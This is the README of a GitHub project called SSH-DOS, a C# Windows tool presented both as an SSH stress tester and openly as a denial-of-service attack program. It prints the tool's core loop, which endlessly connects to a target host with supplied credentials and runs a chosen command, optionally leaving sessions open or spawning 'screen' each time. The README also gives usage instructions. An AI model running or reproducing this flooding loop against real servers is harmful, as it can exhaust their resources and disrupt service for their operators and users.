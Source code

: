 # SSH-DOS
For stress testing SSH by repeatedly connecting and issuing commands.

[![Build status](https://ci.appveyor.com/api/projects/status/wwbnlje4gl61en7i?svg=true)](https://ci.appveyor.com/project/bman46/ssh-dos)

## Core Related Responces:

- This program is written in C# and is meant to perform a Denial of Service attack on a SSH connection. 
- The conditional structure found in `Form1.cs`:
`if (_worker.CancellationPending)
 {
   break;
 }`
 is meant to kill the background worker loop when the user clicks on the stop button.
 - The looping structure: 

            _worker.DoWork += new DoWorkEventHandler((state, args) =>
            {
                do
                {
                    if (_worker.CancellationPending)
                    {
                        break;
                    }

                    using (SshClient client = new SshClient(textBox1.Text, textBox2.Text, textBox3.Text))
                    {
     
                        
                        try
                        {
                            client.Connect();
                            if (Screen.Checked)
                            {
                                client.RunCommand("screen");
                            }
                            client.RunCommand(textBox4.Text);
                            if (!Disconnect.Checked)
                            {
                                client.Disconnect();
                            }
                        }
                        catch
                        {
                            MessageBox.Show("Error Connecting SSH", "SSH Error", MessageBoxButtons.OK, MessageBoxIcon.Error);
                            break;
                        }
                        
                    }

                } while (true);
            });
uses a do while statement that repeatedly connects and issues commands to the target. This loop is killed by the stop button which then kills the worker; therefore, stopping the loop.

## Usage:

Download most recent release and then fill in the input fields.

`No Disconnect` means that it wont send a dissconnect and then try to recconect again.

`Use Screen` means that it will issue the command `Screen` before sending commands (Note: This command will be in the Loop and repeatedly issued)

![alt text](https://github.com/bman46/SSH-DOS/blob/master/SSH-DOS.PNG "Screen Shot of SSH-DOS")
###### Note: Some file names may say SSL but it was a mistake when i created the application and SSL has nothing to do with this repository/program.
